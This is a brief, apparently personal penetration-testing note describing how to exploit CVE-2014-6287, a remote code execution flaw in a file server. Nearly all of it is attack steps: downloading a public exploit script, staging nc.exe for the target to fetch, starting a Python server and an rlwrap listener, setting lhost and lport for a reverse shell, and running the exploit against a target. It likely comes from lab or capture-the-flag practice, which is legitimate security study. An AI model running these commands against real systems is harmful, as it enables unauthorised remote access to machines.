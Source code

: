 ```
wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py
```

```
mkdir bin && cp /usr/share/windows-resources/binaries/nc.exe ./bin
```

[[Python#Server]]

Update lhost and lport variables.

[[rlwrap]]

```
python cve-2014-6287.py $TARGET 9505
```







